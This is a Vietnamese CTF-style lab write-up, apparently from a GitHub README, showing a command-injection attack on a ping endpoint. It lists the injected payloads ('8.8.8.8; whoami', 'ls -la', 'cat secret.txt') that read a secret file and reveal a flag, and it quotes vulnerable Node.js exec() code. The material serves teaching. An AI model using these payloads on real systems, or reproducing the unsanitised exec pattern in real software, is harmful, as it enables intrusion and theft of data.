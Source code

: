 Thử command chaining với dấu `;`:

```
8.8.8.8; whoami
```

**Kết quả**: Nếu hiển thị username → Có lỗ hổng Command Injection!

### Bước 3: Liệt Kê File

```
8.8.8.8; ls -la
```

**Kết quả**: Hiển thị danh sách file trong thư mục hiện tại

```
total 48
drwxrwxr-x  7 user user 4096 Jan 16 10:30 .
drwxrwxr-x  3 user user 4096 Jan 16 10:29 ..
-rw-rw-r--  1 user user 1234 Jan 16 10:30 server.js
-rw-rw-r--  1 user user  567 Jan 16 10:30 secret.txt
-rw-rw-r--  1 user user 1234 Jan 16 10:30 package.json
...
```

### Bước 4: Tìm File Secret

```
8.8.8.8; ls | grep secret
```

**Kết quả**: Tìm thấy `secret.txt`

### Bước 5: Đọc File Và Lấy FLAG 🚩

```
8.8.8.8; cat secret.txt
```

**Kết quả**: `FLAG{C0mm4nd_1nj3ct10n_M4st3r_2024}`

## 🔍 Phân Tích Kỹ Thuật

### Code Vulnerable

```javascript
// src/controllers/CMDIController.js - KHÔNG AN TOÀN
const cmd = `ping -c 4 ${ip}`;
exec(cmd, (error, stdout, stderr) => {
    // Xử lý kết quả
});
```

### Tại Sao Có Lỗ Hổng?

1. **String Concatenation**: Nối trực tiếp user input vào command
2. **exec() Function**: Sử dụng shell execution
3. **Không Validation**: Không kiểm tra input
4. **Không Sanitization**: Không làm sạch dữ liệu
